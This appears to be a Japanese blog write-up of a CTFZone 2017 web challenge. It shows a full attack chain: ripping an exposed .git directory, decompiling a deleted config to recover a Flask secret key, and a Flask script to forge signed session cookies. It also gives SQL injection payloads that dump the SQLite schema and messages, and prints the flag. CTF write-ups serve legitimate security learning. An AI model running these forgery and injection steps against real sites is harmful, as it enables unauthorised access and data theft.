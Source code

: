 ```yaml
---
layout: post
title: CTFZone 2017 の write-up
categories: [ctf]
date: 2017-07-17 09:36:00 +0900
---
```


チーム Harekaze で [CTFZone 2017](https://ctf.bi.zone/) に参加しました。最終的にチームで 1147 点を獲得し、順位は得点 55 チーム中 25 位でした。うち、私は 1 問を解いて 687 点を入れました。

以下、解いた問題の write-up です。

## [Web 687] Leaked messages

与えられた URL にアクセスすると、`Here u can make your own virtual number and receive sms with its help` という説明とログインページへのリンクが表示されました。

適当なアカウント (ユーザ名は `tekitou`) を作成してログインすると `326410031713` という番号が発行され、`Hello! Your number is 326410031713. Have a nice conversation.` というメッセージが表示されました。

Cookie は `session=eyJudW1iZXIiOiIzMjY0MTAwMzE3MTMiLCJ1c2VybmFtZSI6InRla2l0b3UifQ.DE2Jvg.rTWgVWdOeAYa0Z1a-9GI6tJQChE` という内容になっていました。`.` で区切った最初の文字列を base64 デコードすると `{"number":"326410031713","username":"tekitou"}` という JSON のデータが出てきました。

何か手がかりが得られないか [m---/webfuck](https://github.com/m---/webfuck) を回してみたところ、`/backup/` というディレクトリが見つかりました。

早速アクセスしてみると `HEAD` `COMMIT_EDITMSG` のようなファイルや `objects/` `refs/` のようなディレクトリの一覧が表示されました。恐らく `.git` でしょう。[kost/dvcs-ripper](https://github.com/kost/dvcs-ripper) を使って `rip-git.pl -v -u http://82.202.204.104/backup/` でダウンロードできました。

ダウンロード先には `.gitignore` `requirements.txt` `static/` `templates/` がありました。`.gitignore` は以下のような内容で、どうやらソースコードは含まれていないようです。

```
*.db
.DS_Store
backup
env
.backup/
template
.template/
*.py
```

`requirements.txt` は以下の内容で、Flask を使っていることが分かりました。

```
flask
flask_recaptcha
```

`git log` でコミットログを眺めていると、気になる箇所がありました。

```
commit 8b1084b23d869e5dc1ae4ac845589ecfb896c0c3
Author: Alexey Kuznetsov <akz@bi.zone>
Date:   Fri Jul 14 20:40:11 2017 +0300

    static added
	
...
diff --git a/config.pyc b/config.pyc
deleted file mode 100644
index 1426e2a..0000000
Binary files a/config.pyc and /dev/null differ
```

`config.pyc` というファイルを削除しています。`git reset --hard bd55b19e5413ce609d3bc4429c3a6f272341988a` で巻き戻しましょう。得られた `config.pyc` を `uncompyle6` でデコンパイルすると以下のコードが出てきました。

```python
# uncompyle6 version 2.9.10
# Python bytecode 3.6 (3379)
# Decompiled from: Python 2.7.9 (default, Mar  1 2015, 12:57:24) 
# [GCC 4.9.2]
# Embedded file name: config.py
# Compiled at: 2017-07-15 02:28:42
# Size of source mod 2**32: 288 bytes


class BaseConfig(object):
    DEBUG = False
    SECRET_KEY = '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d'
    DB_NAME = 'messages.db'
    RECAPTCHA_ENABLED = True
    RECAPTCHA_THEME = 'dark'
    RECAPTCHA_TYPE = 'image'
    RECAPTCHA_SIZE = 'normal'
    RECAPTCHA_RTABINDEX = 10
# okay decompiling config.pyc
```

セッションの署名と検証に使われている `SECRET_KEY` が得られました。これを使ってセッションの偽造ができるスクリプトを書いてみましょう。

`app.py`

```python
import requests
from flask import *

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
  if request.method == 'POST':
    session['number'] = request.form['number']
    session['username'] = request.form['username']
    return render_template('index.html', username=request.form['username'], number=request.form['number'])
  return render_template('index.html', username='', number='')

app.secret_key = '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d'
app.run(port=4000, debug=True)
```

`templates/index.html`

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Leaked message</title>
  </head>
  <body>
    <form method="POST">
      <label>username: <input type="text" name="username" value="{{ username }}" size=100></label><br>
      <label>number: <input type="text" name="number" value="{{ number }}" size=100></label><br>
      <input type="submit" value="submit"></form>
    </form>
  </body>
</html>
```

`username` に `hoge`、`number` に `fuga` を入力してできたセッションを Cookie にセットすると、`Here the last message for you, fuga` と表示されました。やった!

`number` を `' union select sqlite_version();--` に変えてみるとメッセージに `3.11.0` が表示されました。これで `number` から SQLi ができ、また DB には SQLite が使われているということが分かりました。

`' union select group_concat(sql, char(10)) from sqlite_master;--` でテーブルの構造を確認してみます。

```
CREATE TABLE sqlite_sequence(name,seq)
CREATE TABLE users(id INTEGER PRIMARY KEY AUTOINCREMENT, username text, password text, salt text, number text)
CREATE TABLE messages(id INTEGER PRIMARY KEY AUTOINCREMENT, number text, message text)
```

`users` `messages` というテーブルがあることが分かりました。

`' union select group_concat(distinct message) from messages where message not like 'Hello! Your number is %' order by message;--` でメッセージを抜き出してみましょう。

```
To be truly great, we have to understand the motivation of our clients, maintain constant two-way communication with shockingly uncreative people, get a firm handle on copywriting and how that craft exists symbiotically with the visual element, and foresee how the finished whole will be greater than the sum of the bits and pieces we spent hours obsessing over. All of these factors cascade into the final product.
...
It&#39;s so cool! https://postimg.org/image/41t4h680r/
```

いろいろな引用がある中、最後の行に画像へのリンクがありました。開いてみるとうっすらとフラグが読めますが…何度試しても通りません。悩んでいたところ、arukuka さんが正しいフラグを提出されていました。どうやら 21 文字目の `6` を `5` と読み間違えてしまっていたようです。

```
ctfzone{b1d4207ff1966105af775cfa71d8214d}
```